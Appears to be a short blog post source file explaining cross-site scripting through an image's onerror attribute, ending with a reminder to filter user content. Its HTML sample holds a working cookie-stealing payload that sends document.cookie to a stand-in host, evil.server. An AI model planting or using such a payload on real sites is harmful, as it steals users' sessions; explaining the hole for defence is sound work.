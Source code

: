 ```yaml
---
layout: post
title: XSS with Img OnError attribute
tags:
- javascript
- PHP
- security
---
```

So much of my time is spent worrying over the src or href tags on images and links - that I sometimes forget about the other attributes.

Imagine being able to make an image which has no black-flagged content in the src but yet can still make a remote request, logging the user's cookie information?  That's right - this can be done - using the 'onerror' attribute of an image.

What you need to do is to create an image link that is obviously broken or empty.  Then, javascript handles such events by throwing an error for that element.  Add an item to the onerror attribute to request a remote URL as your images src - which you add on document.cookie.  The remote script logs all requests, and then displays an image.

Check out the code below:

Source page without proper filtering:

```html
<html>
    <body>
        <h1>test</h1>
        <h2>asdf</h2>
        <img onerror="this.src='http://evil.server/exploit.php?'+document.cookie" src=""></img>
    </body>
</html>
```

Then, on evil.server, place your image.  Finally, top it off with the following code in exploit.php

Easy as that.  Just another reminder to properly filter your use submitted content.
